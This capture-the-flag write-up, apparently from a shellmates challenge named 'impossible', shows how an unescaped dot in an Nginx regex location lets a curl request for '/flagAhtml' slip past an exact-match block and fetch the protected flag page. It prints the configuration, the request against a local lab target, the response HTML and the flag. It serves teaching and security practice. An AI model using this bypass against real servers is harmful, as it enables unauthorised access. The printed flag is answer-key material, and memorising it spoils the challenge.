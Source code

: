 # impossible

## Write-up

* Nginx configuration :  

```nginx
events {
}

http {
  server {
    listen 80;

    location = /flag.html {
      rewrite ^ /no_flag_for_you.html break;
    }

    location ~ ^/flag.html$ {
      rewrite ^ /flag.html break;
    }

    location = /alive {
      return 200;
    }
  }
}
```

* At first glance it looks impossible to get the flag because of this exact match location block :  

```nginx
location = /flag.html {
  rewrite ^ /no_flag_for_you.html break;
}
```

* But knowing about Nginx, the `~` in a location block means it's a regular expression match

* The regex we're dealing with is `^/flag.html$`, `^` means start of string and `$` means end of string

* But there is one more thing to notice : in regular expressions `.` matches any character, which ultimately means that, for example, `/flagAhtml` can pass the check and we get the flag

* Let's try it :  

```bash
curl http://127.0.0.1:3002/flagAhtml
```

* Output :  

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width-device-width, initial-scale=1.0" />
    <link href="https://unpkg.com/tailwindcss@^2/dist/tailwind.min.css" rel="stylesheet"/>
    <title>Impossible</title>
  </head>
  <body class="bg-gray-50">
    <header>
      <div class="flex flex-row bg-gray-100 px-5 py-2">
        <a href="/" class="hover:underline hover:text-blue-500 text-black py-1 px-4 font-bold">
          Impossible
        </a>
      </div>
    </header>

    <main>
      <div class="my-5 flex justify-center items-center relative z-20">
        <h1 class="text-black text-5xl font-bold">shellmates{R3gEX_IN_NGinx_g03S_BrrrR}</a>
      </div>
    </main>

  </body>
</html>
```

## Flag

`shellmates{R3gEX_IN_NGinx_g03S_BrrrR}`
